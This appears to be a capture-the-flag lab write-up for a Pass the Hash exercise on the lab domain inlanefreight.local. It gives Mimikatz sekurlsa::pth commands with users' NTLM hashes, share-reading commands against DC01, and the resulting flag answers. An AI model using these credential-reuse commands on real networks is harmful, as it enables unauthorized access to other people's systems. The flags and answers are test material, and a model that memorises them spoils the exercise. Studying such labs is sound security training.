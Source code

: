 <mark style="color:green;">**c39f2beb3d2ec06a62cb887fb391dee0**</mark>

**Using David's hash, perform a Pass the Hash attack to connect to the shared folder \DC01\david and read the file david.txt.**

*   MIMIKATZ

    * `sekurlsa::pth /user:david /rc4:c39f2beb3d2ec06a62cb887fb391dee0 /domain:inlanefreight.local /run:cmd.exe`

    <figure><img src=".gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

    * `dir \dc01\david`
    * `type \dc01\david\david.txt`

<figure><img src=".gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

<mark style="color:green;">**D3V1d\_Fl5g\_is\_Her3**</mark>

**Using Julio's hash, perform a Pass the Hash attack to connect to the shared folder \DC01\julio and read the file julio.txt.**

* `sekurlsa::pth /user:julio /rc4:64f12cddaa88057e06a81b54e73b949b /domain:inlanefreight.local /run:cmd.exe`
  * `type \dc01\julio\julio.txt`

<figure><img src=".gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>
